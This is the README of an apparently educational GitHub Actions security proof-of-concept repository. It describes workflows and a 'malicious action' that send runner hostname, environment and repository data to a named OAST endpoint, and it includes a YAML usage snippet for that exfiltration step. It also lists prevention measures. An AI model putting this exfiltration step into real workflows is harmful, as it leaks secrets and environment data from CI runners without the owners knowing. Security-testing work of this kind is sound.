 # GitHub Actions Security PoC

This repository demonstrates GitHub Actions security vulnerabilities and attack techniques for professional security testing and awareness.

## ⚠️ WARNING

This repository contains security testing materials for **educational purposes only**. Use only on repositories you own or have explicit permission to test.

## Repository Structure

```
├── .github/workflows/
│   ├── data-exfiltration-demo.yml      # Hostname exfiltration to OAST endpoint
│   ├── malicious-action-usage.yml      # How to use malicious actions
│   ├── action-abuse-demo.yml           # Basic action abuse scenarios
│   └── advanced-action-abuse.yml       # Advanced attack techniques
├── malicious-action-demo/              # Complete malicious action example
│   ├── action.yml                      # Action metadata
│   ├── index.js                        # Malicious action code
│   └── README.md                       # Action documentation
├── malicious-action-example.md         # Attack techniques documentation
└── README.md                           # This file
```

## Quick Start

### 1. Data Exfiltration Demo
Run the workflow to send hostname data to your OAST endpoint:
```yaml
# Uses your OAST endpoint: pxq5e1pis82o7p125z9urcjyqpwgk68v.oastify.com
```

### 2. Malicious Action Usage
Demonstrate how malicious actions can be used:
```yaml
- name: Malicious Data Exfiltration
  uses: ./malicious-action-demo
  with:
    target_endpoint: 'your-oast-endpoint.com'
    data_type: 'hostname'
```

## Attack Vectors Demonstrated

### 1. Data Exfiltration
- **Hostname Collection**: Gather runner hostname information
- **Environment Variables**: Access sensitive environment data
- **Repository Metadata**: Collect repository and actor information
- **Multiple Methods**: HTTP POST, DNS exfiltration

### 2. Action Abuse
- **Typosquatting**: Similar-named malicious actions
- **Supply Chain Attacks**: Compromising legitimate actions
- **Malicious Forks**: Adding backdoors to existing actions

### 3. Advanced Techniques
- **Reconnaissance**: Information gathering
- **Privilege Escalation**: Gaining elevated access
- **Persistence**: Maintaining access after workflow completion

## Security Testing

### Professional PoC Scenarios
1. **Controlled Environment**: Use isolated test repositories
2. **Ethical Testing**: Only test on authorized repositories
3. **Documentation**: Record all testing activities and findings

### OAST Integration
- **Endpoint**: `pxq5e1pis82o7p125z9urcjyqpwgk68v.oastify.com`
- **Data Types**: Hostname, environment, repository info
- **Methods**: HTTP POST, DNS exfiltration

## Prevention Methods

### 1. Action Security
- **Pin Actions**: Always pin to specific commit SHAs
- **Review Code**: Check action source code before use
- **Trusted Sources**: Only use actions from trusted repositories
- **Dependency Scanning**: Scan for vulnerable actions

### 2. Runner Security
- **Self-Hosted Runners**: Use isolated runner environments
- **Network Restrictions**: Implement network policies
- **Least Privilege**: Use minimal required permissions
- **Monitoring**: Track runner activities and data exfiltration

### 3. Policy Enforcement
- **WIZ Policies**: Implement comprehensive security policies
- **Approval Workflows**: Require approval for action updates
- **Continuous Monitoring**: Monitor action usage and changes

## Usage Examples

### For Security Teams
- **Penetration Testing**: Use scenarios for red team exercises
- **Security Awareness**: Train developers on action security
- **Policy Development**: Create security policies based on findings

### For Developers
- **Best Practices**: Learn secure action usage patterns
- **Threat Awareness**: Understand potential attack vectors
- **Implementation**: Apply security controls in workflows

## Legal Notice

This repository is for educational and security testing purposes only. Users are responsible for:
- Obtaining proper authorization before testing
- Complying with applicable laws and regulations
- Following responsible disclosure practices
- Respecting terms of service and privacy policies

## References

- [GitHub Actions Security Best Practices](https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions)
- [OWASP CI/CD Security Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/CI_CD_Security_Cheat_Sheet.html)
- [GitHub Actions Security](https://github.com/features/security)
